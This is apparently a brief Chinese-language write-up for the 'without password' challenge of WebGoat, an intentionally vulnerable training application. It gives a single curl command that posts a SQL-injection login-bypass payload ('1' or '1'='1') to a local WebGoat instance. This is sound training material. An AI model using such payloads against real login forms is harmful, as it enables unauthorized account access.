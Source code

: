 # without password

就是一个注入题

构造下面请求即可。

```
curl -vn -H "Cookie: JSESSIONID=574A15072CE7BA353B3CF93D8AE1AB92" -d "username_login=Larry&password_login=1'%20or$20'1'='1" 127.0.0.1:8080/WebGoat/challenge/5
```